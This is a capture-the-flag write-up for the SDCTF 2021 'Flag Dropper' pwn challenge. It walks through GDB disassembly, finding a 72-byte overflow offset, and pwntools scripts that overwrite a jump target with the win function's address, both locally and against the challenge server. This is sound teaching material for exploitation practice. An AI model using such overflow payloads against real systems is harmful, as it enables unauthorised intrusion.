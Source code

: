 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2021 | Flag Dropper Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2021
parent: sdctf_2021
category: pwn
challenge: Flag Dropper
tags: "pwn, twh"
---
```


<h1 class="heading card-title white-text">Sdctf 2021</h1>

## Flag Dropper
> Solved by Taz and thewhiteh4t

* After loading the binary in `GDB` we can list the functions
```
info functions
```

![](https://i.imgur.com/rbChpV2.png)

* here we can see that we have a `win` function
* win function disassembled :

```bash
gdb-peda$ disas win
Dump of assembler code for function win:
   0x00000000004005da <+0>:	mov    eax,0x0
   0x00000000004005df <+5>:	lea    rsi,ds:0x60109d
   0x00000000004005e7 <+13>:	lea    rdi,ds:0x601094
   0x00000000004005ef <+21>:	call   0x400440 <fopen@plt>
   0x00000000004005f4 <+26>:	mov    rdx,rax
   0x00000000004005f7 <+29>:	mov    eax,0x0
   0x00000000004005fc <+34>:	movabs rdi,0x601124
   0x0000000000400606 <+44>:	mov    esi,0x16
   0x000000000040060b <+49>:	call   0x400430 <fgets@plt>
   0x0000000000400610 <+54>:	mov    edi,0x1
   0x0000000000400615 <+59>:	mov    eax,0x1
   0x000000000040061a <+64>:	mov    edx,0x16
   0x000000000040061f <+69>:	syscall
   0x0000000000400621 <+71>:	jmp    0x4005d0 <_exit>
   0x0000000000400623 <+73>:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x000000000040062d <+83>:	nop    DWORD PTR [rax]
End of assembler dump.
```

* it is opening and reading some file
* now lets run the binary in GDB with a breakpoint in main

![](https://i.imgur.com/MMVX7lC.png)

* after some instructions we can see **flag.txt**
* I created a file named **flag.txt** with a fake flag inside it
* now I tried to execute the `win` function I found earlier

![](https://i.imgur.com/Zb62G51.png)

* great so win function is opening **flag.txt** and printing the flag
* now I looked for something which can execute the win function

![](https://i.imgur.com/0yJjSWN.png)

* we can see in the `code` section :

```
<main+142>: jmp QWORD PTR [rax]
```

* `jmp` is used for changing the flow of the programing , that means if we can provide the start address of `win` function to `jmp` it will execute it for us

* I found the offset at `73`

![](https://i.imgur.com/bovjmMe.png)

* Now lets find the start address of `win` function

```
gdb-peda$ print win
$1 = {<text variable, no debug info>} 0x4005da <win>
```

* Testing the offset in GDB :

```bash
python -c "print('A' * 73 + 'BBBBBBBB')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
```

![](https://i.imgur.com/6hrG88c.png)

* we have a small problem here, it seems like one of the A is extra so the offset should be 72 instead of 73

* Testing the new offset using pwntools with start address of `win` function :

```python
#!usr/bin/env python3

from pwn import *

offset = 72
addr = 0x4005da # Start address of win function

junk = b'A' * 72
le_num = p64(addr) # converted to little endian
buffer = junk + le_num 

elf = ELF('./flagDropper')
p = elf.process()
p.send(buffer)
out = p.recvall()
print(out)

```

* the script above runs the binary locally and sends our payload, here is the output :

![](https://i.imgur.com/fc0v22d.png)

* It works!, now I created a new script to send the payload on the server

```python
#!/usr/bin/env python3
    
from pwn import *
    
host = 'dropper.sdc.tf'
port = 1337
offset = 72
addr = 0x4005da # address of win function
    
junk = b'A' * offset
le_num = p64(addr)
    
buffer = junk + le_num
conn = remote(host, port)
conn.send(buffer)
flag = conn.recvuntil('}').decode()
print(f'\nFLAG : {flag}\n')
conn.close()
```

**OUTPUT :**

![](https://i.imgur.com/pu5NYoX.png)


